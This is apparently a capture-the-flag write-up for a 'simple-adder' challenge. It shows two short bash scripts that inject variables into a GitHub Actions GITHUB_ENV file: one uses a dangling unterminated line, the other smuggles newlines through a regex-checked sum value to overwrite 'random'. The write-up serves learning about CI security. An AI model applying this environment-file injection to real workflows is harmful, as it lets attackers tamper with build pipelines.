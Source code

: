 # Write up for simple-adder

## Overview

For this challenge we are have a professor that wants us to make a file that adds two numbers; 
however, he only wants lucky students to pass, so we also need a random number he generates using GitHub actions
to equal ```22222```.

## Solution

### Flag 1

#### Method 1

First, we can create a bash script to add the two numbers.
Then, we can write ```random``` to the environment variables such that it seeds ```22222```.
Which we found to be ```21615```. Finally, by writing ```a``` to the enivronment variables without a newline,
when the action later tries to set random, it will instead set
```arandom```, keeping our injected ```random```. Thereby getting the flag. Below is the solution script
```
#!/bin/bash

a=$1
b=$2
sum=$((a + b))
echo $sum
echo "random=21615" >> $GITHUB_ENV
echo -n "a" >> $GITHUB_ENV
```

#### Method 2

For the second method, notice that the sum checker uses regex. Thus, we can use ```echo -e ".*(injection_stuff)?."``` 
to pass the sum checker and be able to inject code. Next, notice that they later save ```sum``` to the environment 
variables, so we'll get ```sum=.*(injection_stuff)``` at the end of the environment variables. Thus, we can overwrite
```random``` in the environment variables using new lines. We find that ```echo -e ".*(\nrandom=21615\na=)?."``` will write
```
sum=.*(
random=21615
a=)?.
```
to the environment variables. Thereby getting us the flag as ```21615``` seeds ```22222```. The solution script is below.

```
#!/bin/bash

echo -e ".*(\nrandom=21615\na=)?."
```
